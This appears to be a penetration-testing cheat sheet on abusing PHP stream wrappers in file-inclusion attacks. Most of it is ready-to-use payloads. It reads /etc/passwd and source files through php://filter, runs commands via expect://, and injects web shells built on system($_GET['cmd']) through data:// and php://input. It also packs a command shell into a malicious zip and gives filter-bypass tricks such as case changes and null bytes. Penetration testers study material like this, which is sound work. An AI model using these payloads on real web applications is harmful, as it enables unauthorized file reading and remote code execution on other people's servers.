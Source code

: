# PHP Wrappers

PHP has a number of wrappers that can often be abused to bypass various input filters.

## Cheat sheet

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers" %}

{% embed url="https://highon.coffee/blog/lfi-cheat-sheet" %}

{% hint style="success" %}
Note: Wrappers can be chained.
{% endhint %}

## Wrappers

### Wrapper file://

```bash
..?filename=file:///etc/passwd # List files.
```

### Wrapper expect://

```bash
..?filename=expect://[COMMAND]
..?filename=expect://whoami
```

The **expect** wrapper in PHP helps in the interaction with process flows. This extension is disabled by default, but can be very useful if enabled.

### Wrapper php://filter

View the content of a file in base64. This is useful for PHP files, since remember that the LFI interprets PHP code, but would not show the content. With the use of this wrapper we can see the content encoded in base64 and then decode it and see the content:

{% hint style="info" %}
The "php://filter" part is case insensitive, so we can bypass it.
{% endhint %}

```bash
php://filter/convert.base64-encode/resource=<PATH TO FILE>
php://filter/read=convert.base64-encode/resource=<PATH TO FILE>
pHp://FilTer/convert.base64-encode/resource=<PATH TO FILE> # Note the capitalization for the bypass.
php://filter/read=/resource=/etc/passwd
```

### Wrapper php://filter + zlib (compression)

It can be chained with a compression wrapper for large files:

```bash
php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

To read the compression data it is necessary to decode the base64 and read the resulting data using:

```bash
php -a # Starts a php console
readfile('php://filter/zlib.inflate/resource=<FILE>');
```

### Wrapper php://filter/read=string.rot13

```bash
# View the contents of a file in a string rotated 13 times (Caesar encryption):
..?filename=php://filter/read=string.rot13/resource=<PATH TO FILE>
# To rotate it to the "normal state", we do:
echo "<STRING ROT13> | tr '[C-ZA-Bc-za-b]' '[P-ZA-Op-za-o]'"
```

### Wrapper data://

The data wrapper can be used to include external data, including PHP code. It is possible to use it only if the **allow\_url\_include** setting is enabled in the PHP configuration. This can be found in the `/etc/php/X.Y/apache2/php.ini` file for Apache and in `/etc/php/X.Y/fpm/php.ini` for php-fpm used by Nginx, where X.Y is the installed PHP version.

The following procedure must be followed:

```bash
# We encode the PHP payload in base64:
echo -n "<?php system(\$_GET['cmd']);?>" | base64
# Then we make the URL request with the base64 and the wrapper data:
...?filename=data://text/plain;base64,<BASE64>=&cmd=id

# Another way in plaintext:
...=filename=data:text/plain,<?php echo system("whoami"); ?>
# Other payloads:
filename=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?> # Get in base64, the index.php
filename=data://text/plain,<?php phpinfo(); ?>
```

### Wrapper php://input

Like the data wrapper, the input wrapper can be used to include external inputs and execute code. It also needs the **allow\_url\_include** setting enabled. The following curl command sends a POST request with a system command and then includes it using **php://input**, which is executed by the page.

```bash
curl -s -X POST --data "<?php system('id'); ?>" "<URL>?filename=php://input"
```

Another example:

![](../../../.gitbook/assets/wrapper\_input.png)

### Wrapper zip://

The zip wrapper can be useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. This wrapper is not enabled by default and can be installed with the following command: `apt install phpX.Y-zip` (X.Y would be the PHP version).

We must follow the following procedure:

```bash
# Create a malicious file:
echo -n "<?php system(\$_GET['cmd']); ?>" > exec.php
zip malicious.zip exec.php
rm exec.php
```

Next, copy **malicious.zip** to the webroot to simulate the upload (with Burpsuite we select the `Paste from file` option and select the **malicious.zip** → [Paste a file (POST)](../../../general/proxies-and-pivoting/burpsuite.md#paste-a-file-post)).

The files in the zip archive can be referenced using the **#** symbol, which must be encoded as a URL in the request. For example, the URL below can be used to include exec.php and then execute the code using the cmd parameter.

```bash
<URL>?filename=zip://malicious.zip%23exec.php&cmd=id # "#" is encoded in %23 to prevent the browser from recognizing it as a fragment.
<URL>?filename=zip://malicious.zip%23exec&cmd=id # The same but without the file extension.
```

### Tips

* Sometimes, if we want to access a PHP file, we must not include the extension because it can be that behind, it is adding that extension. Example: `...?filename=file:///var/www/html/asd` (remember that it will be interpreted, but then we can use other wrappers like **php://filter** to see the content of this one).
* Make use of the null byte (**%00**) to avoid adding an extension or to interpret a file that we have uploaded. Ex: The file **shell.php.jpg** to be interpreted we do: `shell.php%00`
